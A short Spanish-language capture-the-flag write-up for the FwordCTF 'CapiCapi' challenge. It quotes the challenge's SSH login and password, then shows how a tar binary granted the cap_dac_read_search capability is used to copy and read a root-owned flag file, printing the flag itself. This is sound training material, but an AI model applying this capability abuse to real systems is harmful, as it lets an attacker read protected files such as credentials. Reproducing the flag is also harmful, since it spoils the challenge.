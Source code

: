 # Fword
## Bash
### CapiCapi
*You have to do some privilege escalation in order to read the flag! Use the following SSH credentials to connect to the server, each participant will have an isolated environment so you only have to pwn me!
SSH Credentials
ssh -p 2222 ctf@capicapi.fword.wtf
Password: FwordxKahla
Author: KAHLA*

Nos conectamos a la máquina objetivo y vemos que hay un flag.txt en el /home de nuestro usuario owneado por el root, despues de checkear vectores normales encontramos una capabilite poco comun
```bash
/usr/bin/tar = cap_dac_read_search+ep
```
Con esto podremos leer la flag sin problema al igual que cualquier otro archivo owned por root, ejecutamos lo siguiente
```bash
user1@c2002c8c2350:/home/user1$ /usr/bin/tar -cvf flag.tar /home/user1/flag.txt # Con esto obtenmos una copia comprimida del archivo
/usr/bin/tar: Removing leading `/'' from member names
/home/user1/flag.txt
user1@c2002c8c2350:/home/user1$ /usr/bin/tar -xvf flag.tar # Con esto lo descomprimimos
home/user1/flag.txt
user1@c2002c8c2350:/home/user1$ cat home/user1/flag.txt # Leemos la flag
FwordCTF{C4pAbiLities_4r3_t00_S3Cur3_NaruT0_0nc3_S4id}
```

